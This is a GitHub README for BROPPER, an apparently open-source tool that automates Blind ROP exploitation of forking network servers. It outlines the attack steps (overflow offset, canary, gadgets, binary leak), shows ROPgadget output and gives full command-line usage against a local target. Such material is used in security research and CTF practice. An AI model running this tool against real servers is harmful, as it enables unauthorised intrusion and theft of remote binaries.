


# BROPPER

<p align="center">
  An automatic Blind ROP exploitation python tool
  <br>
  <br>
</p>

## Abstract 
BROP (Blind ROP) was a technique found by Andrew Bittau from Stanford in 2014.

- [Original paper](https://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [Slides](https://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

Most servers like nginx, Apache, MySQL, forks then communicates with the client. This means canary and addresses stay the same even if there is ASLR and PIE. So we can use some educated brute force to leak information and subsequently craft a working exploit.

## Flow of exploitation

1. Find buffer overflow offset
2. Find canary
3. Find saved registers (RBP / RIP)
4. Find stop gadgets
5. Find brop gadgets
6. Find a Write function (write / dprintf / puts / ...)
7. Leak the binary

## Examples of Results

There is 3 customs vulnerable examples provided in this repository. You can run it directly or build the Dockerfile



BROPPER will then dump the binary : 



It's then possible to extract all ROP gadgets from the dumped binary using ROPgadget for example : 
```bash
$ ROPgadget --binary dump
Gadgets information
============================================================
0x0000000000001177 : adc al, 0 ; add byte ptr [rax], al ; jmp 0x1020
0x0000000000001157 : adc al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x1020
0x0000000000001137 : adc byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x1020
...
...
...
0x0000000000001192 : xor ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 0x16 ; jmp 0x1020
0x000000000000182e : xor eax, 0x891 ; mov rdi, rax ; call rcx
0x0000000000001861 : xor eax, 0xffffff22 ; mov rdi, rax ; call rcx

Unique gadgets found: 235
```

## Script usage 

To use this script:

```bash
python3 -m pip install -r requirements.txt
python3 bropper.py -t 127.0.0.1 -p 1337 --wait "Password :" --expected Bad --expected-stop Welcome -o dump
```
```bash
$ python3 bropper.py -h
usage: bropper.py [-h] -t TARGET -p PORT --expected-stop EXPECTED_STOP --expected EXPECTED --wait WAIT -o OUTPUT [--offset OFFSET] [--canary CANARY] [--no-canary] [--rbp RBP] [--rip RIP] [--stop STOP]
                  [--brop BROP] [--plt PLT] [--strcmp STRCMP] [--elf ELF]

Description message

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target url
  -p PORT, --port PORT  target port
  --expected-stop EXPECTED_STOP
                        Expected response for the stop gadget
  --expected EXPECTED   Expected normal response
  --wait WAIT           String to wait before sending payload
  -o OUTPUT, --output OUTPUT
                        File to write dumped remote binary
  --offset OFFSET       set a offset value
  --canary CANARY       set a canary value
  --no-canary           Use this argument if there is no stack canary protection
  --rbp RBP             set rbp address
  --rip RIP             set rip address
  --stop STOP           set stop gadget address
  --brop BROP           set brop gadget address
  --plt PLT             set plt address
  --strcmp STRCMP       set strcmp entry value
  --elf ELF             set elf address
```
## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
